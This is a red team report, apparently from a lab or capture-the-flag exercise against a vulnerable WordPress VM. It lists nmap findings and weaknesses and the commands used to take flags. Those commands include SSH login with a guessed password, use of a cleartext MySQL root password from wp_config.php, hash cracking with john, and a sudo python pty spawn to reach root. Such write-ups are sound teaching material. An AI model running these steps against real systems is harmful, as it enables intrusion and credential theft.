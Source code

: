 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap scan: nmap -sV 192.168.1.110
 
```
![](nmap-target1.JPG)

This scan identifies the services below as potential points of entry:

- Target 1

  - :22 - SSH
  
  - :80 - HTTP
  
  - :111 - rpcbind
  
  - :139 - netbios / smb
  
  - :445 - netbios / smb


The following vulnerabilities were identified on each target:

- **Target 1**

	- **wpscan user enumeration**
 
 	 	- wpscan was able to enumerate users to uncover usernames for the target system.
	

	- **SSH with Password**
 
		- No SSH key being used.

 		- User michael had a password that can be easily guessed.
 	
	
	- **Python can run with sudo**

		- User steven has the ability to run python with sudo
	
		- Python can execute arbitrary code on the system, ultimately creating a loophole for escalated privelages to root access.
	

	- **Database credentials in plain text**

		- Database credentials for the wordpress site were found in /var/www/html/wp_config.php. Once I gained root access to the database, I was able to use mysql to search for files containing the string "flag" within it's contents.
	
	- **CVE-2017-3167**
	
		- Authentication bypass is possible on the version of Apache running on the server.
	
	- **CVE-2017-7494**
		- Version of samba running on the server is insecure and allows for remote code execution.


-***Initial scans to find vulnerabilities:***

![](nmap-target1.JPG)
![](wpscantrgt1.JPG)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d

    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + grep -ER flag1
![](flag1-grep.JPG)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + cat flag2.txt
	      
	      ![](flag2.JPG)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit: Root credentials (not hashed) for the mysql database were saved in /var/www/html/wp_config.php
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + nano /var/www/html/wp_config.php
	      + mysql -u root -p wordpress (password: R@v3nSecurity)
			- mysql > show databases;
			 - use wordpress
			 - show tables;
			 - select * from wp_posts;
			
			![](wp-config.php.JPG)
			![](mysql1.JPG)
			![](mysql-flags.JPG)
  - `flag4.txt`(As Root): 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit:
      		-Privilege escalation using python
      
      		- After gaining access to steven's password hash via mysql, I used the john command on hash.txt, where I saved steven's password hash. 
      		- Checked permissions levels for steven and found that python can be used for privilege escalation.
      
- Commands run: 
  	
		-mysql> select * from wp_users;
		
		![](steven-hash.JPG)
  	
		-root@kali$> echo "(stevens password hash)" > hashes.txt
		
		-john hashes.txt
		
		![](john hashes.JPG)
    
		-ssh steven@192.168.1.110
		
		-sudo -l
     	 
 		![](steven-python.JPG)
 		
 		- sudo python -c 'import pty;pty.spawn("/bin/bash");'
 		
 		-cd /root
 		
 		-ls
 		
 		-cat flag4.txt
 		
		![](steven-flag4.JPG)
		
		

			 
			 
